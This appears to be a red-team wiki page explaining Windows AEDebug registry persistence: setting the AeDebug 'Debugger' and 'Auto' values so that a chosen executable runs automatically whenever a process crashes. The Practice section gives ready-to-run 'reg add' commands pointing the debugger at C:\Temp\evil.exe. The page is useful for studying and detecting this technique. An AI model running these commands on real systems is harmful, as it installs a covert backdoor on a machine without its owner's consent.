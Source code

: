 # AEDebug Keys Persistence

## Theory

**AEDebug Keys** is a persistence and backdoor technique that leverages the Windows registry's `Debugger` property to execute a specified executable when a process crashes. The level of access gained depends on the security context of the debugged process. Additionally, if the `Auto` property of the same registry key is set to `1`, the debugger launches automatically without requiring user interaction, further enhancing persistence.

{% hint style="info" %}
&#x20;A value of `C:\Windows\system32\vsjitdebugger.exe` might be seen if you have Visual Studio Community installed.
{% endhint %}

## Practice

{% hint style="danger" %}
By editing AEDebug, the original debugger exe will not start
{% endhint %}

{% tabs %}
{% tab title="AeDebug" %}
You can run a malicious code instead of the debugger by editing `Auto` and `Debugger` values under following keys:

* `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`
* `HKCU\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`

```powershell
# Starts without user interaction
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Auto" /t REG_SZ  /d "1"
# Edit debugger
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Debugger" /d "C:\Temp\evil.exe"

#Or

# Starts without user interaction
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Auto" /t REG_SZ /d "1"
# Edit debugger
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Debugger" /d "C:\Temp\evil.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.hexacorn.com/blog/2013/09/19/beyond-good-ol-run-key-part-4/" %}

{% embed url="https://persistence-info.github.io/Data/aedebug.html" %}
